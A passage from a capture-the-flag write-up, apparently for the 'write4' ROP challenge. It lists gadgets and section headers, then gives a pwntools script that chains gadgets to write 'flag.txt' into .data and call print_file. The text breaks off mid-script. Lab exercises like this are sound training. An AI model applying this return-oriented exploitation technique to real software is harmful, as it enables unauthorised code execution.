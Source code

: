 ```
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040068e: pop r13; pop r14; pop r15; ret;
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400692: pop r15; ret;
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax;
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040068f: pop rbp; pop r14; pop r15; ret;
0x0000000000400588: pop rbp; ret;
0x0000000000400693: pop rdi; ret;
0x0000000000400691: pop rsi; pop r15; ret;
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret;
```

Oh, well... looks like we will have to make some small adjustments to our ROP chain... let's check the sections as well:

```
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
```

I think I am going to go with the ```.data``` section this time, as I want to make sure my string will have a null terminator.
As for the ROP chain itself... looks like we will have to make use of ```r14``` and ```r15``` before we make use of ```rdi```, since this seems to be the easiest memory dereferencing I can see in the actual context. Let's write our script and see if we get flag.

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.bits = 64
context.endian = "little"

e = ELF("./write4")

io = e.process()

print(io.recvuntil('>'))

pop_rdi = p64(0x400693) # pop rdi; ret
mov = p64(0x400628) # mov QWORD PTR [r14], r15; ret
pop_r14_r15 = p64(0x400690) # pop r14; pop r15; ret
data_addr = 0x601028
print_file = p64(0x400510) # print_file@plt

payload = b'A'*40

payload += pop_r14_r15
payload += p64(data_addr)
payload += p64(0x7478742e67616c66) # "flag.txt"
payload += mov

# get address of .data into rdi
payload += pop_rdi
payload += p64(data_addr)

#return to print_file
payload += print_file

with open('payload', 'wb') as file:
```